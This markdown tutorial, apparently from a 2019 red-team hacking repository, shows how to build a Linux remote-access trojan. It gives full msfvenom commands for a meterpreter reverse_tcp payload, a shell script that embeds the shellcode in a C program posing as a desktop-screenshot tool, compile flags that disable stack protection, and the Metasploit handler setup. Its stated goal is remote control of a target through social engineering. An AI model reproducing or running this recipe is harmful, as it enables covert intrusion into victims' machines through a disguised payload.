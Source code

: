 #### :: SHELLCODE DESCRIPTION (Wikipedia)
In hacking, a shellcode is a small piece of code used as the payload in the exploitation of a software vulnerability. It is called "shellcode" because it typically starts a command shell from which the attacker can control the compromised machine, but any piece of code that performs a similar task can be called shellcode. Because the function of a payload is not limited to merely spawning a shell, some have suggested that the name shellcode is insufficient. However, attempts at replacing the term have not gained wide acceptance. Shellcode is commonly written in machine code. 

---

<br />

#### :: EXERCISE OBJECTIVES
Use Metasploit to build shellcode in C format and Insert the C shellcode into a C program (RAT)<br />
To be abble to control of a linux system remotely using social engineering.

<br />

#### :: STEPS REQUIRED TO ACHIEVE THIS
[1º - Use Metasploit to Build Shellcode in C Format](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-metasploit-to-build-shellcode-in-c-format)<br />
[2º - Insert the C shellcode created into a C program](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-insert-the-c-shellcode-created-into-a-c-program)<br />
[3º - Use GCC to compile the C program (make it executable)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-use-gcc-to-compile-the-c-program-make-it-executable)<br />

<br />

#### :: [SOCIAL ENGINEERING](https://en.wikipedia.org/wiki/Social_engineering_(security))
**'Take a desktop screenshot using a C program'**.<br />
The C program not only runs the shellcode (RAM) that allows us to control the target PC remotely,<br />
but also executes a system command (sh) that takes a screenshot of the target PC desktop using<br />
[MITRE ATT&CK T1113](https://attack.mitre.org/techniques/T1113/) (xwd package) Technic. **'(Screenshot Function Inside the C Program)'**:<br />

    system("sleep 1; xwd -root -out /tmp/ScreenShot.xwd");

<br />

#### :: MULTI-THREAD (simultaneously -> display screenshot + exec shellcode)
Its achieved using the bash **&** operator that backgrounds the current system call (display screenshot)<br />
while jumping to the next C function (execute shellcode in RAM). **'(Multi-Thread Inside the C Program)'**:<br />

    system("sleep 1; xwud -in /tmp/ScreenShot.xwd &");
    void (*ret)() = (void(*)())buf;


<br /><br />

| DEPENDENCIE | DESCRIPTION | FUNCTION | REQUIRED |
|---|---|---|---|
| Metasploit | Metasploit Framework | Build Shellcode + Recive Connection ( handler )| yes |
| [GCC](https://www.cyberciti.biz/faq/debian-linux-install-gnu-gcc-compiler/) | C Compiler | Compile the C Program ( make it executable ) | yes |
| [xwd](http://blog.tordeu.com/?p=135) | X Window Screenshots | Take Screenshots ( social engineering ) | optional |


<br /><br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### :: STEP-BY-STEP (HOW-TO)
Execute all the follow commands sequencialy into your terminal windows<br />
All Commands required to acomplish this exercise are inside the grey box(s).<br />
This exercise its written this way to allow readers to work only in terminal windows.<br />

<br /><br />

#### :: Build shellcode folder

```
sudo mkdir shellcode
cd shellcode
```

![pic](http://i63.tinypic.com/2dl9pop.png)

<br />

#### :: Start postgresql service

```
sudo service postgresql start
```

![pic](http://i63.tinypic.com/2eoikbo.png)

<br />

#### :: Use Metasploit to Build Shellcode in C Format
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.71 LPORT=666 -b '\x00' -a x86 --platform linux -f c -o chars.raw

```

![pic](http://i64.tinypic.com/muk5xu.png)

- **'Msfvenom Syntax'**
  - -p payload name
  - -b delete nul bites from shellcode **\x00**
  - -a payload arch
  - -f shellcode format
  - -o write output to a file 

<br />

#### :: See whats written inside chars.raw (optional)

```
cat chars.raw
```

![pic](http://i66.tinypic.com/i6xzyw.png)

<br />

#### [Parse](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/bash/parsing_data_in_bash.md) shellcode data and store it into a local bash variable

```
pa=$(cat chars.raw | grep -v "=" | tr -d '";' | tr -d '\n' | tr -d ' ')
```

![pic](http://i65.tinypic.com/2090m12.png)

The shellcode data its now stored inside a bash local variable named **$pa**<br />
This variable its going to be used to embebbed the shellcode in to C Program while we<br />
are creating it using the follow commands described in the next grey box.<br />

<br />

#### :: Insert the C shellcode created into a C program

```
echo "#include<stdio.h>" > payload.c
echo "#include<stdlib.h>" >> payload.c
echo "#include<string.h>" >> payload.c
echo "" >> payload.c
echo "unsigned char buf[] = \"$pa\";" >> payload.c
echo "" >> payload.c
echo "int main()" >> payload.c
echo "{" >> payload.c
echo "  printf(\"\\nPlease Wait, Taking Screenshot ..\n....................................\", strlen(buf));" >> payload.c
echo "  system(\"sleep 1; xwd -root -out /tmp/ScreenShot.xwd\");" >> payload.c
echo "  system(\"sleep 1; xwud -in /tmp/ScreenShot.xwd &\");" >> payload.c
echo "  void (*ret)() = (void(*)())buf;" >> payload.c
echo "  ret();" >> payload.c
echo "}" >> payload.c
```

![pic](http://i67.tinypic.com/309rd74.png)

<br />

#### :: See whats written inside payload.c (optional)

```
cat payload.c
```

![pic](http://i68.tinypic.com/24y1ojb.png)

<br />

#### :: Use GCC to compile the C program (make it executable)

```
sudo gcc -fno-stack-protector -z execstack payload.c -o desktop_screenshot
```

![pic](http://i68.tinypic.com/15klg4.png)

<br />

#### :: Start metasploit multi handler
WARNING: Replace LHOST value by your local ip address<br />
WARNING: If your attacking a x64 bit system, then change the arch from -a x86 to -a x64<br />

```
sudo msfconsole -x 'use exploit/multi/handler; set LHOST 192.168.1.71; set LPORT 666; set PAYLOAD linux/x86/meterpreter/reverse_tcp; exploit'
```

![pic](http://i68.tinypic.com/15wlyxs.png)

<br />

#### :: Execute the C Program (remote machine)

```
chmod +x desktop_screenshot
sudo ./desktop_screenshot
```

![pic](http://i67.tinypic.com/16h9sax.png)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

<br />

#### :: Video Tutorial

[C Shellcode Linux - Video Tutorial](https://blablabla.)

<br />

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/shellcoding/C_Shellcode_Linux.md#-exercise-objectives)

---

### Suspiciou Shell Activity - RedTeam @2019


